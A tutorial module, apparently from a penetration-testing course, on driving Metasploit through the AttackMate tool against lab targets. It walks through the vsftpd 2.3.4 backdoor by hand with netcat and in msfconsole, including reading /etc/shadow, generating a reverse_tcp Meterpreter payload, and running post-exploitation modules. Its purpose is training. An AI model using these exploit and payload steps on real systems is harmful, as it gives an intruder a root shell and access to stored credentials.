

# Module 2: Metasploit Integration

## Metasploit Recap

[Metasploit Framework](https://www.metasploit.com/) is a widely used exploitation framework in penetration testing. It organizes its functionality into **modules**:

| Module Type | Purpose | Example |
|---|---|---|
| `exploit` | Trigger a vulnerability to gain code execution | `exploit/unix/ftp/vsftpd_234_backdoor` |
| `auxiliary` | Scanning, fuzzing, brute-force, denial of service | `auxiliary/scanner/portscan/tcp` |
| `post` | Post-exploitation actions on an active session | `post/multi/manage/shell_to_meterpreter` |
| `payload` | Code delivered and executed on the target | `linux/x86/meterpreter/reverse_tcp` |

A **session** is an active connection between Metasploit and a compromised target. Sessions can be raw command shells or full Meterpreter sessions.

> **Further reading:**
[Metasploit documentation](https://docs.metasploit.com/) and the [Metasploitable2 exploitability guide](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/) for a list of vulnerabilities on the training target.

---

## How AttackMate Connects to Metasploit

AttackMate communicates with Metasploit through the **Metasploit RPC daemon** (`msfrpcd`). This is a background service that exposes Metasploit's functionality over an API, which AttackMate calls whenever a `msf-*` command is executed.



### Starting msfrpcd

Before running any `msf-*` command, start `msfrpcd` on the attacker machine:

```bash
# Start the Metasploit RPC daemon, bind to localhost, password "msf"
msfrpcd -P msf -a 127.0.0.1

# The daemon listens on port 55553 by default
# Verify it is running, this command lists open network sockets
# and filters that output to only show lines containing port 55553:
ss -tlnp | grep 55553
```

### Configuring AttackMate

Create a `config.yml` file with the connection settings:

```yaml
msf_config:
  password: msf
  ssl: true
  port: 55553
  server: 127.0.0.1
```

Pass the config when running a playbook:

```bash
attackmate --config config.yml my_playbook.yml
```

> **Note**:
The `config.yml` in the day2 directory is pre-configured. All walkthroughs assume it is passed with `--config`.

---

## `msf-module`: Running Exploits and Modules

The `msf-module` command runs any Metasploit module (exploit, auxiliary, or post).

```yaml
- type: msf-module
  cmd: exploit/unix/ftp/vsftpd_234_backdoor
  payload: cmd/unix/interact
  options:
    RHOSTS: 172.17.0.106
    RPORT: 21
  payload_options:
    LHOST: 172.17.0.127
  creates_session: shell
```

### Options

| Option | Description |
|---|---|
| `cmd` | Module path (e.g., `exploit/unix/ftp/vsftpd_234_backdoor`) |
| `options` | Dict of module options (RHOSTS, RPORT, etc.) |
| `payload` | Payload to use with an exploit module |
| `payload_options` | Dict of payload options (LHOST, LPORT, etc.) |
| `creates_session` | Name to assign to the session this module creates |
| `session` | Session to target (for post modules) |
| `target` | Metasploit target index (default: `0`) |

### Running a Post Module

Post modules run against an existing session. Use the `session` option with the session number or name:

```yaml
- type: msf-module
  cmd: post/linux/gather/enum_network
  options:
    SESSION: $LAST_MSF_SESSION
```

> **Note**:
For exploit modules, `creates_session` is the name you give the session in AttackMate's session store. For post modules, `SESSION` in `options` is Metasploit's internal session number (use `$LAST_MSF_SESSION`).

---

## `msf-session`: Executing Commands in a Session

The `msf-session` command sends a command to an active Metasploit session and captures the output.

```yaml
- type: msf-session
  session: shell
  cmd: id
```

The output is available in `$RESULT_STDOUT` after the command.

### Options

| Option | Default | Description |
|---|---|---|
| `session` | (required) | Name of the session (as given in `creates_session`) |
| `cmd` | (required) | Command to run in the session |
| `stdapi` | `False` | Load and use Meterpreter's standard API (for Meterpreter sessions) |
| `end_str` | None | String that marks the end of the output (for commands that don't terminate cleanly) |

### Meterpreter Commands

For Meterpreter sessions, set `stdapi: True` to use Meterpreter's built-in commands:

```yaml
- type: msf-session
  session: meterpreter
  stdapi: True
  cmd: sysinfo

- type: msf-session
  session: meterpreter
  stdapi: True
  cmd: getuid
```

Common Meterpreter commands (with `stdapi: True`):

| Command | Description |
|---|---|
| `sysinfo` | System information (OS, hostname, architecture) |
| `getuid` | Current user |
| `ps` | Process list |
| `pwd` | Current working directory |
| `ls /path` | List directory |
| `download /remote /local` | Download a file |
| `upload /local /remote` | Upload a file |

---

## `msf-payload`: Generating Payloads

The `msf-payload` command generates a payload binary using Metasploit's `msfvenom` engine.

```yaml
- type: msf-payload
  cmd: linux/x86/meterpreter/reverse_tcp
  format: elf
  local_path: /tmp/shell.elf
  payload_options:
    LHOST: 172.17.0.127
    LPORT: "4444"
```

### Options

| Option | Default | Description |
|---|---|---|
| `cmd` | (required) | Payload name (e.g., `linux/x86/meterpreter/reverse_tcp`) |
| `format` | `raw` | Output format: `elf`, `exe`, `raw`, `py`, `sh`, etc. |
| `local_path` | None | Where to save the generated payload |
| `payload_options` | `{}` | Options for the payload (LHOST, LPORT, etc.) |
| `encoder` | `""` | Encoder to apply (e.g., `x86/shikata_ga_nai`) |
| `iter` | `0` | Encoding iterations |

> **Tip**:
Use `mktemp` to generate a temporary file path before `msf-payload`, then serve it with `webserv`. This avoids hardcoding paths and ensures cleanup when AttackMate exits.

---

## The `$LAST_MSF_SESSION` Builtin

After a successful `msf-module` exploit run, AttackMate automatically stores the Metasploit session number in `$LAST_MSF_SESSION`. This is the internal numeric ID Metasploit assigns to each session.

This is especially useful when running post modules, because they require the `SESSION` option to be set to the numeric session ID:

```yaml
- type: msf-module
  cmd: exploit/unix/ftp/vsftpd_234_backdoor
  payload: cmd/unix/interact
  options:
    RHOSTS: $TARGET
  creates_session: shell

# $LAST_MSF_SESSION is now set to the numeric session ID (e.g., "1")

- type: msf-module
  cmd: post/linux/gather/enum_network
  options:
    SESSION: $LAST_MSF_SESSION
```

---

## Step-by-Step: The vsftpd 2.3.4 Backdoor

Before running the walkthrough, let's trace through what happens manually so the playbook makes sense.

**What is this vulnerability?**

[vsftpd 2.3.4](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/) contains a backdoor that was maliciously inserted into its source code. When a user logs in with a username ending in `:)`, the server opens a command shell on port 6200. This is purely a backdoor; it requires no real exploitation.

**Manual steps (what the playbook automates):**

1. Connect to the FTP service:
   ```bash
   nc 172.17.0.106 21
   ```
2. Send the backdoor trigger username (note the `:)` suffix):
   ```
   USER itsme:)
   PASS anything
   ```
3. In a second terminal, connect to port 6200:
   ```bash
   nc 172.17.0.106 6200
   ```
4. You now have a root shell. Run post-exploitation commands:
   ```bash
   id
   uname -a
   cat /etc/shadow
   ```

**In AttackMate, the msf-module handles all of this automatically:**

```yaml
- type: msf-module
  cmd: exploit/unix/ftp/vsftpd_234_backdoor
  payload: cmd/unix/bind_ruby
  options:
    RHOSTS: $TARGET
  creates_session: shell

- type: msf-session
  session: shell
  cmd: id
```

The walkthrough `01_vsftpd_backdoor.yml` builds on this into a full post-exploitation chain.

---

### Using msfconsole Interactively

You can run the same exploit from an interactive msfconsole session. This is useful for exploration and manual testing before automating with AttackMate.

> **Note**:
Old metasploit tutorials for this exploit use payload `cmd/unix/interact`, which did not open a new shell or port, it simply attached directly to the shell already opened by the backdoor on port 6200. In the current (2026) versions of Metasploit Framework `cmd/unix/interact` is no longer listed as a compatible payload for this exploit.
We use `cmd/unix/bind_ruby` instead, which achieves the same result differently: it sends a Ruby one-liner through the backdoor shell on port 6200, which opens a NEW *bind* shell on LPORT (default 4444) that Metasploit then connects back to directly.
(The current default payload for the exploit, `cmd/linux/http/x86/meterpreter_reverse_tcp`, would establish a *reverse* shell)

Start msfconsole:

```bash
msfconsole
```

Inside the console, select the module, configure the target (RHOSTS) and payload (using default RPORT 21 and LPORT 4444), and run it:

```
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.110.0.31
RHOSTS => 10.110.0.31
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set payload cmd/unix/bind_ruby
payload => cmd/unix/bind_ruby
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
```

On success, Metasploit reports an open session and drops you into a root shell where you can type commands, for example `id`:

```
[+] 10.110.0.31:21 - Backdoor has been spawned!
[*] Started bind TCP handler against 10.110.0.31:4444
[*] Command shell session 1 opened (10.10.6.14:35113 -> 10.110.0.31:4444) at 2026-03-26 13:15:31 +0100

id
uid=0(root) gid=0(root)n
```

To background the session and return to the msfconsole prompt, press `Ctrl+Z`. You can then run post modules against it:

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > sessions -l
Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               10.10.6.14:38231 -> 10.110.0.31:4444 (10.110.0.31)

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > use post/linux/gather/enum_network
msf6 post(linux/gather/enum_network) > set SESSION 1
SESSION => 1
msf6 post(linux/gather/enum_network) > run
```

This is exactly the sequence AttackMate automates: `msf-module` runs the exploit and creates a session, and subsequent `msf-module` commands with `SESSION: $LAST_MSF_SESSION` run post modules against it.

> **Note**:
In msfconsole you can take a look at the options for a selected exploit with the `options` and list available payloads with `list payloads`.
